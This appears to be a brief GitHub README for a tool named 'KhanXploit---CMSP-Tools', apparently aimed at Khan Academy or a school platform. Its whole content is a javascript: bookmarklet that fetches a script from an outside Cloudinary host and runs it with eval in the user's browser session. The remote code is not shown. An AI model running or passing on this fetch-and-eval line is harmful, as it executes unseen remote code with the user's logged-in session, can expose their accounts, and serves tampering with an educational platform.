 # KhanXploit---CMSP-Tools
# Codigo
```javascript
javascript:fetch('https://res.cloudinary.com/duxhxktrx/raw/upload/v1755904764/cmsp-tools.js').then(t=>t.text()).then(eval);
```

